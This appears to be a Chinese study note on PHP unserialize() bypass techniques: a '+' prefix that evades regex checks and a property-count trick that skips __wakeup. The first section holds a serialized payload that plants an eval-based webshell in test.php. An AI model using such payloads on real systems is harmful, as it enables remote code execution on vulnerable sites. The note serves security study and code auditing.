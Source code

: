 # unserialize

**参考文章：**

- https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day11/files/README.md
- https://secure.php.net/manual/zh/function.unserialize.php
- https://www.cnblogs.com/Mrsm1th/p/6835592.html

**函数结构：**

```php
unserialize ( string $str ) : mixed
```

## O类绕过

#### 利用范围

- PHP7<PHP7.2（没有测试具体测试是在PHP7.2.x的哪个小版本修复的）
- PHP5

#### 测试代码

可以绕过正则检测：

```
a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./test.php";s:8:"template";s:25:"<?php eval($_POST[xx]);?>";}}
```
增加了一个`+`
```php
print_r(unserialize('a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./test.php";s:8:"template";s:25:"<?php eval($_POST[xx]);?>";}}'));
```

## wakeup绕过

#### 利用范围

- PHP before 5.6.25 
-  7.x before 7.0.10）  

#### 测试代码

表示属性的个数大于真实的个数时，wakep魔术方法不会被执行，官方demo  

```php
<?php
class test{
	public $a;
	public $b;
	public function __construct($bb){
		$this->a='1';
		$this->b=$bb;
		echo "__construct"."\n";
	}
	public function __sleep(){
		echo "sleep"."\n";
		return array('a');
	}
	public function __wakeup(){
		echo "wakeup"."\n";
	}
	public function __destruct(){
		echo $this->a;
		echo "__destruct"."\n";
	}
}
$a=new test('b');
$ar = serialize($a);
echo $ar."\n";
echo "111111"."\n";
print_r(@unserialize('O:4:"test":2:{s:1:"a";s:1:"1";}'));
?>
```